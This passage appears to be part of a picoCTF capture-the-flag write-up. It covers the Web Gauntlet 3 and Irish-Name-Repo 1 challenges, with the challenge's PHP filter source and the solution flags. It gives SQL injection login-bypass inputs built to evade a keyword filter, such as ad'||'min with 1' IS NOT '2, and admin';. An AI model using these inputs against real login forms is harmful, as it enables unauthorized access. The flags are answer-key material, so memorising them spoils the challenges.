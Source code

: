     FLAG: picoCTF{0n3_m0r3_t1m3_838ec9084e6e0a65e4632329e7abc585}
# Web Gauntlet 3
Filters: or and true false union like = > < ; -- /* */ admin <br>
We cannot end or comment after the username but we can make password true. We cannot use **true** keyword but we can use **IS NOT** to make the value true.<br>
Type in username: **ad'||'min** <br>
Type in password: **1' IS NOT '2** <br>

```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
?>
```

    FLAG: picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
# Irish-Name-Repo 1
As you go to the support section you'll get to know that SQL database it used. End the SQL command just after checking the username. <BR>
Type in username: **admin';** <br>
![](images/4.1.jpg) <br>